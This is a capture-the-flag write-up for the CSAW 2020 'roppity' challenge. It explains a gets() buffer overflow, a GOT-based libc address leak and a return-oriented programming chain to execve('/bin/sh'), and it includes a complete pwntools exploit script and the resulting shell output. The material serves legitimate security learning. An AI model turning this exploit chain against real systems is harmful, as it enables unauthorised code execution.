 # roppity (Pwn, 50 points)

> Welcome to pwn!
> nc pwn.chal.csaw.io 5016

This challenge provides you with the binary `rop` and `libc-2.27.so` that the
server is running. From the name and description, it's obviously
a Return-Oriented Programming (ROP) challenge. I'm still pretty new to these so
this was a really fun one for me as I learned some new things along the way.

First we check out the binary to see what we're working with:

```sh
$ file rop
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d177aa372f308c07c8daaddec53df7c5aafd630, not stripped
$ checksec --file=rop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   65) Symbols       No    0               1               rop
$ checksec --file=libc-2.27.so
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   79              170             libc-2.27.so
```

So we're dealing with a 64-bit binary that which includes the symbols, but
doesn't have many protections on. Just NX (non-executable stack) so we won't be
able to inject shellcode and return to it, hence the need for ROP. Libc has
protections, but this is pretty standard and we'll see how to work around it.

Decompiling the binary in Ghidra we see that it's a super simply binary that
just prints hello, reads our input into a local 32-byte buffer and returns.
`gets` will read an arbitrary amount of bytes until a newline or EOF is seen, so
this is where our overflow happens.

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_28 [32];
  
  init(param_1);
  puts("Hello");
  gets(local_28);
  return 0;
}
```

Now we need to figure out how to use this overflow to get a shell, basically we
are going to want to ROP-to-libc and execute `execve("/bin/sh", 0, 0)`. Because
they provided the libc version we don't need to leak which version they are
using and can simply pull the offsets for the functions we want, but because of
ASLR we first need to find out where it is.

So for our exploit we'll need to do the following:
1. Leak libc's base address
2. Compute a ROP chain to `execve("/bin/sh", 0, 0)`
3. Submit the payload and get our shell

But the code only asks for input once, so how do we leak the address _and_ then
submit a payload? Well, we can print the address and then just call back into
main, which will ask for more input and allow us to ROP once more.

To leak the libc base address we need to leak a function within libc, and the
global offset table (GOT) is a great way to do that. Our initial ROP chain looks
like so. We use pwntools to create it since it can look up the gadgets and
symbols for us so we don't have to hard code them.

```python
e = ELF('./rop')
r = ROP(e)
r.raw(r.rdi)             # pop rdi; ret
r.raw(e.got['puts'])     # put the address of puts from libc into rdi, the argument for puts
r.raw(e.plt['puts'])     # call puts to print it
r.raw(e.symbols['main']) # return to main after puts
```

Once we have the address, we can easily compute libc base by subtracting from it
the offset from the base of libc.

```python
# NOTE: the libc variable is pwntools's ELF("libc.so") which allows us to easily
# find the runtime addresses once we set the base.
libc_base = puts_addr-libc.symbols['puts']
libc.address = libc_base
```

After this we are prompted for input again and we can submit the shell paylod.

```python
r = ROP(libc)
r.raw(r.rdi)                         # Load address of /bin/sh into first arg
r.raw(next(libc.search(b"/bin/sh")))
r.raw(r.rsi)                         # Zero out second arg
r.raw(0)
r.raw(r.rdx)                         # Zero out third arg
r.raw(0)
r.raw(libc.symbols['execve'])        # Return to execve("/bin/sh", 0, 0)
```

There's also a cool idea called "one-shot gadgets" which you can use to simplify
the exploit and simply return to an address instead of building up the full call
yourself. [one_gadget](https://github.com/david942j/one_gadget) is
a command-line tool you can install to search for these and try them out.  They
have some constraints so they won't always work, but you can just try them and
if they work, great! You're done. There was a valid one shot gadget for this too
at location `libc_base+0x4f365`. So the second payload is just `padding
+ pack(libc_base+0x4f365)`.

Either one works, though the former is a little more flexible since I can run it
locally for testing and on the remote server where the one shot gadget is
dependent on which libc version you have and mine is different.

Putting all this info together, we run our exploit to the following output:

```sh
$ python3 exploit.py
[*] '/home/kali/gh-ctf/csaw-quals-2020/roppity/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/kali/gh-ctf/csaw-quals-2020/roppity/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 5016: Done
[*] Loaded 14 cached gadgets for './rop'
[+] leaked puts: 0x7f773987ba30
[+] leaked libc base: 0x7f77397fb000
[*] Loading gadgets for '/home/kali/gh-ctf/csaw-quals-2020/roppity/libc-2.27.so'
[*] sending shell payload
[*] Switching to interactive mode
$ id
uid=1000(rop) gid=1000(rop) groups=1000(rop)
$ cat flag.txt
flag{r0p_4ft3r_r0p_4ft3R_r0p}
```

## Exploit Script

```python
from pwn import *
import sys

BINARY = './rop'
context.binary = BINARY
GDB = False
REMOTE = True
e = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == "remote":
    REMOTE = True

if REMOTE:
    libc = ELF("./libc-2.27.so")
else:
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def start():
    if REMOTE:
        return remote("pwn.chal.csaw.io", 5016)
    else:
        if GDB:
            return gdb.debug(BINARY, '''
                break main
                continue
            ''')
        else:
            return process(BINARY)

RET_OFFSET = cyclic_find(0x6161616b)

def leak_and_set_libc_base(io):
    r = ROP(e)
    r.raw(r.rdi) # pop rdi; ret
    r.raw(e.got['puts']) # to rdi (1st arg)
    r.raw(e.plt['puts'])
    r.raw(e.symbols['main'])
    p = b'A'*RET_OFFSET + r.chain()

    io.readline() # Hello
    io.sendline(p)
    puts_addr = unpack(io.readline()[:-1].ljust(8, b'\x00'))
    log.success("leaked puts: " + hex(puts_addr))

    libc_base = puts_addr-libc.symbols['puts']
    log.success("leaked libc base: " + hex(libc_base))
    libc.address = libc_base # update libc base so we can calc ROP chain
    return libc_base

def libc_rop_to_interactive_sh(io):
    r = ROP(libc)
    r.raw(r.rdi)
    r.raw(next(libc.search(b"/bin/sh")))
    r.raw(r.rsi)
    r.raw(0)
    r.raw(r.rdx)
    r.raw(0)
    r.raw(libc.symbols['execve'])
    p = b'A'*RET_OFFSET + r.chain()

    # This one gadget also works remotely if we want to use that instead
    # one_gadget_offset = 0x4f365
    # p = b'A'*RET_OFFSET + pack(libc.address + one_gadget_offset)

    io.readline() # Hello
    log.info("sending shell payload")
    io.sendline(p)
    io.interactive()

def exploit():
    try:
        io = start()
        leak_and_set_libc_base(io)
        libc_rop_to_interactive_sh(io)
    finally:
        io.close()

exploit()
```

